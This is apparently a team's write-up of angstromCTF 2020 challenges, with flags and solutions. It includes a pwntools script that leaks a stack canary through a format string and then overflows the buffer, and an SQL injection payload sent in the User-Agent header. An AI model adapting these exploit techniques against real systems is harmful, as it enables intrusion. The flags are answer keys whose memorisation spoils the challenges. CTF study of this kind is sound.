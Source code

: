 # angstromCTF 2020

## pwn

### Canary

flag: actf{youre_a_canary_killer_>:(}
string format problem: leak canary with string format then bof

payload:

```lang=c
from pwn import *
flag = p64(0x400787)
r = remote('shell.actf.co',20701)
print(r.recvuntil(" name? "))
payload = '%17$p'
r.sendline(payload)
data = r.recvuntil("\n")
canary = data.split(',')[-1].strip()[:-1]
canary_int = p64(int(canary,16))
print(r.recvuntil("Anything else you want to tell me? "))
payload = "a"*56 + canary_int + 'b'*8 + flag
r.sendline(payload)
r.interactive()
```

#### Reference
[format string wiki](https://en.wikipedia.org/wiki/Printf_format_string)
kaibro edu-ctf
[ctf wiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_exploit-zh/)
[format string course](https://github.com/qazbnm456/ctf-course/blob/master/slides/w4/format-string.md)

## Web

### Consolation

flag: actf{you_would_n0t_beli3ve_your_eyes}

given a js file below, just find the function that would output the flag

```lang=c
console[_0x4229('0x14', '70CK')](_0x4229('0x38', 'rwU*'));
```

### Secret agent

flag: actf{nyoom_1_4m_sp33d}

simple sql injection(mysql) which reads the payload from user-agent field.

1. Utilize burp-suite to intercept requests.
2. Modify the user-agent to the payload below.


payload

> Roselia' or 1=1 limit 2,1 #

### xmass still stand - not solved

xss attack

### Defund's Crypt - not solved

LFI attack ( image insert reverse shell)

## Reverse

### Windows of Opportunity

flag: actf{ok4y_m4yb3_linux_is_s7ill_b3tt3r}

simply use idapro and will find the flag


### Autorev, Assemble! - Not solved

hundreds of functions with simple comparison
construct the string based on the given functions

### patcherman - Not Solved

patch program(section issue)

## Networking

### wireshark-2

flag: actf{ok_to_b0r0s-4809813}

reconstruct the jpeg file to gain the flag. After inspect the traffic, you'll find a packet with images, extract the image from the packet.

![](https://i.imgur.com/IIucaLx.png =500x300)


#### tools & reference

[wireshark refrence psh,ack](https://osqa-ask.wireshark.org/questions/20423/pshack-wireshark-capture)

[repair jpeg](https://online.officerecovery.com/pixrecovery/)

[eof of jpeg](https://stackoverflow.com/questions/4585527/detect-eof-for-jpg-images)


### ws3

flag: actf{git_good_git_wireshark-123323}

Git packfile reconstruction

Given a pcap file. Inspect the pcap file than you will find several http request / response related to git-receive packet and git-response packet.
These traffic are request and response of files in git directory. To be more specific, the users are trying to fetch the data from remote repo.

[git fetching mechanism](https://stackoverflow.com/questions/27430312/what-does-git-fetch-really-do)

basically, client will first invoke upload-pack to remote repo, the repo will then compare the latest packfile with the uploaded one. Eventuall,y the repo will return those commit, objects that client lack to the client

In conclusion, those objects / commit received from repo contains the flag.

This is the main commit / objects.

![](https://i.imgur.com/6BpFvYh.png)

After reassemble the whole packet, retrieve the packet start from PACK to the end. This will be our packfile.
Save the packfile to .pack extension.

run the command to gain the idx file

> git index-pack *.pack

follow this youtube vedio to reconstruct the objects

https://www.youtube.com/watch?v=cauIy20JhFs

Then simply run git cat-file -p to gain the flag

![](https://i.imgur.com/2BIgoJq.jpg =300x400)


#### reference

[hex to binary](https://tomeko.net/online_tools/hex_to_file.php?lang=en)

[git packfile doc](https://git-scm.com/book/en/v2/Git-Internals-Packfiles)

[packfile structure-1](https://codewords.recurse.com/issues/three/unpacking-git-packfiles)

[packfile structure-2](http://shafiul.github.io/gitbook/7_the_packfile.html)

[unpack packfile](https://www.youtube.com/watch?v=cauIy20JhFs)

[git command](https://www.juduo.cc/technique/62040.html)

[git unpack-objects](https://git-scm.com/docs/git-unpack-objects)


## misc

### inputter

flag: actf{impr4ctic4l_pr0blems_c4ll_f0r_impr4ctic4l_s0lutions}

reverse the code and input the argument with pwntools(arguments are not printable)

We have to solve this challenge through logging the shell and run the program.

Since the argv argument nor the fgets target is printable ascii
we should use pwnlib to tackle the unprintable ascii input issue

```lang=c
from pwn import *
r = process(["./inputter"," \n'\"\a"])
r.sendline("\0")
print(r.recv())
```

### Shifter

flag:actf{h0p3_y0u_us3d_th3_f0rmu14-1985098}

simply implement ceasar cipher + dynamic programming

## Crypto

### keysar

flag: actf{yum_delicious_salad}

keyed ceasar: http://rumkin.com/tools/cipher/caesar-keyed.php